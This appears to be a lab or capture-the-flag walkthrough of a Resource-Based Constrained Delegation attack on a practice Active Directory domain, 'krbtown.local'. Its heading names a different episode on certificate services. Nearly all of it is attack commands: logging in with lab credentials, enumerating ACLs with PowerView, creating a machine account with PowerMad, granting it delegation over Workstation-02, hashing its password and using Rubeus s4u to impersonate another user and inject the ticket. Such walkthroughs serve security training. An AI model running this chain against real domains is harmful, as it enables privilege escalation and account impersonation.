---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services
IML - Kerberos: Ep.11 – Resource-Based Constrained Delegation (RBCD)




- RDP:
```bash
xfreerdp /v:10.102.81.46 /u:s.villanelle /p:Summ3r2021! /d:krbtown +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```






- Enumeration:

```bash
. .\PowerView.ps1

get-domainuser s.villanelle -properties objectsid | select -exp objectsid

```



- Then, use the SID to enumerate what rights you have over Workstation-02 by running the command:

```bash
get-domainobjectacl workstation-02 | ?{$_.SecurityIdentifier -eq "[USER_SID]"}

get-domainobjectacl workstation-02 | ?{$_.SecurityIdentifier -eq "S-1-5-21-2984655098-284417223-3543700247-1121"}

```












- Open Elevated Powershell:
```bash
. .\Powerview.ps1

Get-DomainObject -Identity "dc=krbtown,dc=local" -Domain krbtown.local

```















- Open Elevated Powershell
```bash
. .\Powerview.ps1

Get-NetComputer Workstation-02 | Select-Object -Property name, msDS-AllowedToActOnBehalfOfOtherIdentity

```






- Open Elevated Powershell:
```bash
. ./PowerMad.ps1

```
New-MachineAccount -MachineAccount \<ANY_MACHINE_NAME\> -Password \$(ConvertTo-SecureString '\<RANDOM_PASSWORD\>' -AsPlainText -Force) -Verbose

**Give the machine a name of your choice and a password that meets the password policy**

```bash
New-MachineAccount -MachineAccount terminator -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force) -Verbose

```






Set-ADComputer workstation-02 -PrincipalsAllowedToDelegateToAccount \<NEW_MACHINE_NAME\>\$

```bash
Set-ADComputer workstation-02 -PrincipalsAllowedToDelegateToAccount terminator$

```



- Open Elevated Powershell
```bash
. .\Powerview.ps1

Get-ADComputer workstation-02 -Properties PrincipalsAllowedToDelegateToAccount

```









- Open Elevated Powershell:
.\Rubeus.exe hash /password:\<PASSWORD_OF_NEW_MACHINE\> /user:\<NEW_MACHINE_USERNAME\>\$ /domain:krbtown.local

```bash
.\Rubeus.exe hash /password:Password123 /user:terminator$ /domain:krbtown.local

```






rubeus s4u /user:\<NEW_MACHINE_USERNAME\>\$ /rc4:\<NEW_MACHINE_HASH\> /impersonateuser:a.belridge /domain:krbtown.local /msdsspn:cifs/workstation-02.krbtown.local /ptt

```bash
.\Rubeus.exe s4u /user:terminator\$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:a.belridge /domain:krbtown.local /msdsspn:cifs/workstation-02.krbtown.local /ptt

```






- Check with: klist











